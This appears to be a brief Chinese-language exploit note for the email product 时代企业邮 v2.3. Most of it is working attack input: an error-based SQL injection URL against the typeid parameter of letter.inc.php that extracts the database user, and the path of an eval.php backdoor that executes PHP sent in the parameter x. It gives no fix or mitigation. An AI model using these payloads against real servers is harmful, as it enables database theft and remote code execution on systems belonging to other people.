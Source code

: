 ##cve编号：无
##漏洞名称：SQL注入
##漏洞类型：SQL注入
##影响版本：
- 时代企业邮 v2.3
##利用脚本：
- 无
##漏洞细节：
- /webmail/main/letter.inc.php?cmd=getpagelist&typeid=1
- typeid参数存在漏洞
/webmail/main/letter.inc.php?cmd=getpagelist&typeid=1' and 1=updatexml(1,concat(0x24,(select user())),1)%23

- 后门
/up/UploadTemp/eval.php
x=phpinfo();


##reference：
